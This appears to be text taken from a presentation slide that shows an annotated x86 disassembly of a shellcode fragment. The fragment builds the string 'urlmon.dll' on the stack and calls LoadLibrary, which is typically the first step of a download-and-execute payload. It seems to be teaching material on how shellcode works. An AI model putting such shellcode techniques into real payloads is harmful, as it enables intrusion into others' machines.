

# Load a DLL (urlmon.dll)
00000078  83C40C            add esp,byte +0xc      ; pop "LoadLibrary"
0000007B  59                pop ecx                ; ECX = 0
0000007C  50                push eax               ; EAX = LoadLibrary
0000007D  51                push ecx
0000007E  66B96C6C          mov cx,0x6c6c          ; ll
00000082  51                push ecx
00000083  686F6E2E64        push dword 0x642e6e6f  ; on.d
00000088  6875726C6D        push dword 0x6d6c7275  ; urlm
0000008D  54                push esp               ; "urlmon.dll"
0000008E  FFD0              call eax               ; LoadLibrary("urlmon.dll")